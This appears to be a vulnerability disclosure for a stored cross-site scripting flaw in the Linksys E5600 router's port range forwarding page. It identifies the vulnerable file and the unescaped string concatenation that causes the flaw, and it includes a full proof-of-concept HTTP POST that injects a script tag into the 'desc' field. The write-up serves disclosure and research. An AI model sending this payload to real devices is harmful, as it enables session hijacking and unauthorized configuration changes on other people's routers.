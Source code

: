# TARGET
Linksys E5600 Router
Firmware Version:1.1.0.26


# BUG TYPE
Cross-Site Scripting(XSS)

# Abstract
Cross-Site Scripting (XSS) vulnerability in the Linksys E5600 Router allows remote attackers to inject arbitrary web scripts or HTML. The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) lacks proper escaping and filtering, resulting in potential XSS vulnerabilities.

# Details

\squashfs-root\www\pages\setting\security\setting-security-portrangefowarding.html

![[Snipaste_2025-01-07_19-39-11.png]]
The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) lacks proper escaping and filtering, resulting in potential XSS vulnerabilities.Successful exploitation of this vulnerability could allow attackers to perform unauthorized actions, steal sensitive information, or hijack user sessions.

![[屏幕截图 2025-01-07 194217.png]]
An attacker can craft malicious inputs that are injected into a similar data structure via external sources such as API requests, malicious configuration files, or specially crafted HTTP requests. These inputs are rendered into the web interface without proper sanitization, enabling the execution of injected JavaScript code when the victim accesses the affected page.

![[Snipaste_2025-01-07_19-49-00.png]]


POC
```
POST /API/obj HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/setting.html
Cookie: HSESSIONID=19216811221637991217
Priority: u=0

{
    "portRangeForward": {
        "PortRangeForwardT": [
            {
                "desc": "<script>alert('XSS')</script>",
                "externalPortStart": "2",
                "externalPortEnd": "6",
                "proto": "both",
                "deviceIp": "192.168.1.22",
                "enable": "0",
                "name": "prf0"
            }
        ]
    }
}
```